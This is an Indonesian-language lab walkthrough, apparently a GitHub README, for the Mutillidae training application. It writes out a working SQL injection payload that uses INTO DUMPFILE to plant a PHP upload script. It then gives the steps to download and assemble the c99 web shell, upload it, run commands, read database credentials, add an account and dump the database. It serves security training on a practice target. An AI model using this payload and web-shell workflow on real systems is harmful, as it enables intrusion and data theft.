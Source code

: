 # SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Persiapkan file yang ingin di inject
1. Download rar file
```
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
```
![1](/lesson11/1.png)

2. Extract rar file
```
unrar x stuff.rar
```
```
cat part1.txt part2.txt part3.txt > c99.php
```
buat backup untuk file c99.php
```
cp c99.php c99.php.bkp
```
![1](/lesson11/2.png)

4. persiapkan file c99.php
 1. lihat apakah barus pertama tidak mengandung ```<?php```
 ```
 head -1 c99.php
 ```
 2. replace baris pertama dengan ```<?php```
 ```
 sed -i '1 s/^.*$/<?php/g' c99.php
 ```
 3. lihat lagi apakah baris pertamanya sudah berubah atau belum
 ```
 head -1 c99.php
 ```
![1](/lesson11/3.png)

## Lakukan upload file pada mutillidae
1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson11/4.png)

2. Inspect element pada button submit dan ubah attribut menjadi ```text-align="left"```
![1](/lesson11/5.png)

3. Inspect element pada form ```Name``` dan ubah attribut sizenya menjadi ```size="550"```
![1](/lesson11/6.png)

4. Masukkan query sqli di kolom ```Name```
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/mutillidae/upload_file.php' --
```
jangan lupa unutk menambahkan spasi setelah syntax comment ```"-- "```
![1](/lesson11/7.png)

5. akan muncul pesan error seperti ini
![1](/lesson11/8.png)

6. lalu buka ```http://10.151.36.156/upload_file.php```
kita akan melihat halaman upload seperti ini. lalu klik browse dan upload file ```c99.php``` yang telah di download tadi. lalu upload dengan klik tombol submit query
![1](/lesson11/9.png)

7. buka halaman ```http://10.151.36.156/mutillidae/c99.php``` maka kita akan melihat halaman ini.
![1](/lesson11/10.png)

8. scroll kebawah dan kita akan melihat section ```command section``` coba ketikkan ```pwd``` pada kolom yang berada di kiri lalu tekan ```execute```
![1](/lesson11/11.png)

9. Kita bisa lihat hasil execute command tadi akan menghasilkan halaman dan output seperti itu (lokasi file c99.php berada)
![1](/lesson11/12.png)

10. ketikkan pada kolom yang bawah command untuk mencari file include yang menagandung password
![1](/lesson11/14.png)

11. disitu kita mendapatkan configurasi db untuk mutillidae. setelah itu masuk masuk ke tab (menu) SQL
![1](/lesson11/15.png)

12. masukkan detail database seperti yang tadi didapatkan dari file config.inc
![1](/lesson11/16.png)

13. pilih tabel accounts
![1](/lesson11/17.png)

14. pilih insert lalu masukkan data baru seperti dibawah
 * ![1](/lesson11/19.png)
 * ![1](/lesson11/20.png)

15. pilih menu dump
![1](/lesson11/21.png)

16. Masukkan data seperti di bawah. lalu klik tombol ```dump```
![1](/lesson11/22.png)

17. pop up download akan muncul dan klik tombol ```save file```
 * ![1](/lesson11/23.png)
 * ![1](/lesson11/24.png)
